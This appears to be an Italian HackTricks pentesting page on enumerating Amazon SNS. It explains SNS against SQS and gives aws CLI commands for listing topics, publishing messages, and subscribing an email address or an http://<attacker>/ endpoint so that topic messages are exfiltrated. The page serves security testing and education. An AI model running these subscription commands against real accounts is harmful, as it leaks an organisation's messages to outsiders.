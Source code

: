 # AWS - SNS Enum

{{#include ../../../banners/hacktricks-training.md}}

## SNS

Amazon Simple Notification Service (Amazon SNS) è descritto come un **servizio di messaggistica completamente gestito**. Supporta sia i tipi di comunicazione **applicazione-a-applicazione** (A2A) che **applicazione-a-persona** (A2P).

Le caratteristiche chiave per la comunicazione A2A includono i **meccanismi di pubblicazione/sottoscrizione (pub/sub)**. Questi meccanismi introducono **argomenti**, cruciali per abilitare un messaggistica **push-based** ad alta capacità, **molti-a-molti**. Questa funzionalità è altamente vantaggiosa in scenari che coinvolgono sistemi distribuiti, microservizi e architetture serverless basate su eventi. Sfruttando questi argomenti, i sistemi di pubblicazione possono distribuire messaggi in modo efficiente a un **ampio numero di sistemi di sottoscrizione**, facilitando un modello di messaggistica fanout.

### **Differenza con SQS**

**SQS** è un servizio **basato su coda** che consente comunicazione punto-a-punto, garantendo che i messaggi siano elaborati da un **singolo consumatore**. Offre **consegna almeno una volta**, supporta code standard e FIFO, e consente la retention dei messaggi per ripetizioni e elaborazione ritardata.\
D'altra parte, **SNS** è un servizio **basato su pubblicazione/sottoscrizione**, che consente comunicazione **uno-a-molti** trasmettendo messaggi a **più sottoscrittori** simultaneamente. Supporta **vari endpoint di sottoscrizione come email, SMS, funzioni Lambda e HTTP/HTTPS**, e fornisce meccanismi di filtraggio per la consegna mirata dei messaggi.\
Sebbene entrambi i servizi consentano il disaccoppiamento tra i componenti nei sistemi distribuiti, SQS si concentra sulla comunicazione in coda, mentre SNS enfatizza i modelli di comunicazione basati su eventi e fan-out.

### **Enumerazione**
```bash
# Get topics & subscriptions
aws sns list-topics
aws sns list-subscriptions
aws sns list-subscriptions-by-topic --topic-arn <arn>

# Check privescs & post-exploitation
aws sns publish --region <region> \
--topic-arn "arn:aws:sns:us-west-2:123456789012:my-topic" \
--message file://message.txt

# Exfiltrate through email
## You will receive an email to confirm the subscription
aws sns subscribe --region <region> \
--topic-arn arn:aws:sns:us-west-2:123456789012:my-topic \
--protocol email \
--notification-endpoint my-email@example.com

# Exfiltrate through web server
## You will receive an initial request with a URL in the field "SubscribeURL"
## that you need to access to confirm the subscription
aws sns subscribe --region <region>\
--protocol http \
--notification-endpoint http://<attacker>/ \
--topic-arn <arn>
```
> [!CAUTION]
> Nota che se il **topic è di tipo FIFO**, possono essere utilizzati solo gli abbonati che utilizzano il protocollo **SQS** (HTTP o HTTPS non possono essere utilizzati).
>
> Inoltre, anche se il `--topic-arn` contiene la regione, assicurati di specificare la regione corretta in **`--region`** o riceverai un errore che sembra indicare che non hai accesso, ma il problema è la regione.

#### Accesso Non Autenticato

{{#ref}}
../aws-unauthenticated-enum-access/aws-sns-unauthenticated-enum.md
{{#endref}}

#### Escalation dei Privilegi

{{#ref}}
../aws-privilege-escalation/aws-sns-privesc.md
{{#endref}}

#### Post Sfruttamento

{{#ref}}
../aws-post-exploitation/aws-sns-post-exploitation.md
{{#endref}}

#### Persistenza

{{#ref}}
../aws-persistence/aws-sns-persistence.md
{{#endref}}

## Riferimenti

- [https://aws.amazon.com/about-aws/whats-new/2022/01/amazon-sns-attribute-based-access-controls/](https://aws.amazon.com/about-aws/whats-new/2022/01/amazon-sns-attribute-based-access-controls/)

{{#include ../../../banners/hacktricks-training.md}}
